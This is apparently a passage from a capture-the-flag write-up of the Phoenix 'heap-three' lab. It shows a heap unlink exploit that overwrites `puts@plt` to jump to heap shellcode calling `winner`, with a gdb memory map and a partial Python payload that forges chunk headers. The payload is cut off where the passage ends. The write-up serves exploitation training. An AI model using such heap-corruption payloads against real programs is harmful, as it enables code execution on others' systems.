 Segfault? What happened here? If you look closely at the instructions, it becomes clear. We forgot about the second write
that is executed during `unlink`:

```C
*(prev->bk + 8) = prev->fd;

mov    DWORD PTR [eax+0x8], edx
```

This means we are writing something 8 bytes after the start of the `winner` function (the address of which is in `prev->bk`).
This section of memory is flagged as read-only and thus the program crashes. We need a different strategy keeping the fact
in mind that both `prev->bk + 8` and  `prev->fd + 12` must be writable addresses.

Our new strategy is to place a short shellcode on the heap and store the address of this shellcode in `puts@plt`. The shellcode
will then call the `winner` function. This additional indirection ensures that the second write happens in a writable memory
segment (the heap). We generate shellcode using the [pwntools library](http://docs.pwntools.com/en/stable/asm.html) and embed
it in our payload. Then we modify the word to write to be the address of our shellcode. We don't care about the second write since
our shellcode is sufficiently short. The address of the shellcode is always the same on the system since ASLR is not enabled. We
can find the address of the heap using gdb (the first segment after the program):

```
 (gdb) info proc mappings
process 9561
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x804c000     0x4000        0x0 /opt/phoenix/i486/heap-three
         0x804c000  0x804d000     0x1000     0x3000 /opt/phoenix/i486/heap-three
        0xf7e69000 0xf7f69000   0x100000        0x0
        0xf7f69000 0xf7f6b000     0x2000        0x0 [vvar]
        0xf7f6b000 0xf7f6d000     0x2000        0x0 [vdso]
        0xf7f6d000 0xf7ffa000    0x8d000        0x0 /opt/phoenix/i486-linux-musl/lib/libc.so
        0xf7ffa000 0xf7ffb000     0x1000    0x8c000 /opt/phoenix/i486-linux-musl/lib/libc.so
        0xf7ffb000 0xf7ffc000     0x1000    0x8d000 /opt/phoenix/i486-linux-musl/lib/libc.so
        0xf7ffc000 0xf7ffe000     0x2000        0x0
        0xfffdd000 0xffffe000    0x21000        0x0 [stack]

```

This results in a new exploit:

```python
import struct
import pwnlib

shellcode = "push 0x080487d5; ret" # call winner
shellcode = pwnlib.asm.asm(shellcode)

# First argument
payload = ""
payload = payload + "\x90" * 16 + shellcode # buffer a with shellcode and NOP sled

# Second argument
payload = payload + " " +  "B" * 32  # buffer b 

# overwriting into chunk c
payload = payload + struct.pack("<I", 0xfffffffc) # prev_size, -4 so we can control prev->bk and prev->fd
payload = payload + struct.pack("<I", 0xfffffffc) # size
```